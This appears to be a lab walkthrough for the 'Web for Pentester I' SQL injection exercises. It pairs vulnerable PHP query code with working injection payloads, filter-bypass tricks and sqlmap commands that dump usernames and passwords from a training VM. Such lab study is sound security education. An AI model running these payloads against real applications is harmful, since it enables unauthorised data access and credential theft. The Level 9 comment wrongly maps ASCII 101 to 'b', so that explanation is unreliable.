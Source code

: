# Web-For-Pentester-I-SQLi
==========Level 1==========<br />
`
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";	
	$result = mysql_query($sql);
	if ($result) {
		?>`

**Payload: **
- http://192.168.1.105/sqli/example1.php?name=root' or '1'='1
- http://192.168.1.105/sqli/example1.php?name=root' union select 1,name,passwd,4,5 from users-- -<br />
**SQLMAP: **
- python sqlmap.py -u http://192.168.1.105/sqli/example1.php?name=root --dbs<br />

==========Level 2==========<br />
`if (preg_match('/ /', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";
	$result = mysql_query($sql);`

_In this example, the error message gives away the protection created by the developer: ERROR NO SPACE. This error message appears as soon as a space is injected inside the request. It prevents us from using the ' and '1'='1 method, or any fingerprinting that use the space character. However, this filtering is easily bypassed, using tabulation (HT or \t). You will need to use encoding, to use it inside the HTTP request. Using this simple bypass, you should be able to see how to detect this vulnerability._

**Payload: **
- http://192.168.1.105/sqli/example2.php?name=root'%09or%09'1'='1
- http://192.168.1.105/sqli/example2.php?name=root'%09union%09select%09name,passwd,3,4,5%09from%09users--%09-

**SQLMAP: **
- python sqlmap.py -u http://192.168.1.105/sqli/example2.php?name=root --dbs --tamper=space2comment

==========Level 3==========<br />
`if (preg_match('/\s+/', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";`

_In this example, the developer blocks spaces and tabulations. There is a way to bypass this filter. You can use comments between the keywords to build a valid request without any space or tabulation. The following SQL comments can be used: /**/. By replacing all space/tabulation in the previous examples using this comment, you should be able to test for this vulnerability._
_http://php.net/manual/en/regexp.reference.escape.php. In this regexp **\s** any whitespace character_

**Payload: **
- http://192.168.1.105/sqli/example3.php?name=root%27/**/or/**/%271%27=%271
- http://192.168.1.105/sqli/example3.php?name=root'/**/union/**/select/**/1,(select/**/name/**/from/**/users/**/limit/**/1,1),(select/**/passwd/**/from/**/users/**/limit/**/1,1),4,5/**/or/**/'1'='1

**SQLMAP: **
- python sqlmap.py -u http://192.168.1.105/sqli/example3.php?name=root --dbs --tamper=space2comment

==========Level 4==========<br />
`$sql="SELECT * FROM users where id=";
	$sql.=mysql_real_escape_string($_GET["id"])." ";
	$result = mysql_query($sql);`

_http://php.net/manual/en/function.mysql-real-escape-string.php_

**Payload: **
- http://192.168.1.105/sqli/example4.php?id=2 or 1=1
- http://192.168.1.105/sqli/example4.php?id=2 union select 1,name, passwd,4,5 from users

**SQLMAP: **
- python sqlmap.py -u http://192.168.1.105/sqli/example4.php?id=2 --dbs

==========Level 5==========<br />
`if (!preg_match('/^[0-9]+/', $_GET["id"])) {
		die("ERROR INTEGER REQUIRED");	
	}`

_http://php.net/manual/en/function.preg-match.php_
_However, the regular expression used is incorrect; it only ensures that the parameter id starts with a digit. The detection method used previously can be used to detect this vulnerability._

**Payload: **
- http://192.168.1.105/sqli/example5.php?id=2 or 1=1
- http://192.168.1.105/sqli/example5.php?id=2 union select 1,name, passwd,4,5 from users

**SQLMAP: **
- python sqlmap.py -u http://192.168.1.105/sqli/example5.php?id=2 --dbs


==========Level 6==========<br />
`if (!preg_match('/[0-9]+$/', $_GET["id"])) {
		die("ERROR INTEGER REQUIRED");	
	}`

_This regular expression only check the end with a digit, and forgot ^ to check start with a digit. So we can make evil string with a digit in the end._

**Payload: **
- http://192.168.1.105/sqli/example6.php?id=2 or 1=1-- - 1
- http://192.168.1.105/sqli/example6.php?id=2 or 1=1# 1
- http://192.168.1.105/sqli/example6.php?id=2 union select 1,name,passwd,4,5 from users-- - 123

**SQLMAP: **
- python sqlmap.py -u http://192.168.1.105/sqli/example6.php?id=2 --dbs

==========Level 7==========<br />
`if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
		die("ERROR INTEGER REQUIRED");	
	}`

_Regular expression will check the start and the end of string is a digit. However, the regular expression contains the modifier PCRE_MULTILINE (/m). It will check only one line, and don't care about next line have start or end with digit. So we can bypass it by using `id=2\nPAYLOAD`. And we need convert `\n` to hex. It is %0a_

**Payload: **
- http://192.168.1.105/sqli/example7.php?id=2%0aor%0a1=1-- -
- http://192.168.1.105/sqli/example7.php?id=2%0aunion%0aselect%0a1,name,passwd,4,5%0afrom%0ausers-- -

**SQLMAP: **
- python sqlmap.py -u 'http://192.168.1.105/sqli/example7.php?id=2%0a'

==========Level 8==========<br />
`
	$sql = "SELECT * from users ORDER BY `";
	$sql .= mysql_real_escape_string($_GET["order"])."`";
	$result = mysql_query($sql)
`

http://www.securityidiots.com/Web-Pentest/SQL-Injection/group-by-and-order-by-sql-injection.html

**Payload: **
http://192.168.1.105/sqli/example8.php?order=id` desc-- -
http://192.168.1.105/sqli/example8.php?order=id` desc%23

**SQLMAP: **
- python sqlmap.py -u 'http://192.168.1.105/sqli/example8.php?order=name%60*' --dbs --batch --v 5

==========Level 9==========<br />
`
	$sql = "SELECT * from users ORDER BY ";
	$sql .= mysql_real_escape_string($_GET["order"]);
	$result = mysql_query($sql)
`
There are other methods that can be used in this case, since we are directly injecting in the request without a back-tick before. 
We can use the MySQL IF statement to generate more payloads:
	IF(1, name,age) should give the same results.
	IF(0, name,age) should give different results. You can see that the columns are sorted by age, but the sort function compares the values as strings, not as integers (10 is smaller than 2). This is a side effect of IF that will sort values as strings if one of the column contains a string.

**Payload: **
http://192.168.1.105/sqli/example9.php?order=if((ASCII(SUBSTRING(database(),1,1))=101), name, age)-- - #This response with order by name. So we know this first character of database is 'b'. Because Convert_decimal(101) = String(b)
http://192.168.1.105/sqli/example9.php?order=if((ASCII(SUBSTRING(database(),1,1))=102), name, age)-- - #This response with order by age. The first character of database not ascii(102)

*SQLMAP: **
- python sqlmap.py -u 'http://192.168.1.105/sqli/example9.php?order=id*' --dbs --batch --v 5
